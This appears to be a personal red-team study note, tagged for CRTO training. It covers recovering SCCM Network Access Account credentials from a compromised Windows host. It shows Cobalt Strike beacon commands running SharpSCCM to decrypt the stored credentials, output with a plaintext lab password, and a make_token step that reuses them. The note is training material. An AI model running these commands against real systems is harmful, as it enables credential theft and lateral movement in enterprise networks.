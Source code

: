 Known as NAAs.

Domain credentials to access the SDPs over the network (instead of machine account credentials).

They are passed to the machines as part of the SCCM machine policies, which are then encrypted using DPAPI and stored locally.  If they are present, privileged users can retrieve these credential blobs via WMI or directly from disk and decrypt them to recover plaintext credentials.


#### 🖊️ Obtain Credentials

1) Use `local naa` with `-m wmi` or `-m disk`.

```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner

[+] Connecting to \\127.0.0.1\root\ccm\policy\Machine\ActualConfig
[+] Retrieving network access account blobs via WMI
[+] Retrieving task sequence blobs via WMI
[+] Retrieving collection variable blobs via WMI

[...snip...]

[+] Decrypting network access account credentials

    NetworkAccessUsername: cyberbotic.io\sccm_svc
    NetworkAccessPassword: Cyberb0tic
```

2) These credentials should only have read access to the SDP, but are often times over privileged, try making a new session token with them and test access.

`beacon> make_token cyberbotic.io\sccm_svc Cyberb0tic`


⚠ An alternate approach is to request a copy of the policy directly from SCCM using `get naa`.  This also requires local admin on the local machine to obtain a copy of its SMS Signing and SMS Encryption certificates.




### Properties
---
📆 created   {{25-02-2024}} 11:37
🏷️ tags: #redteam #crto 

---

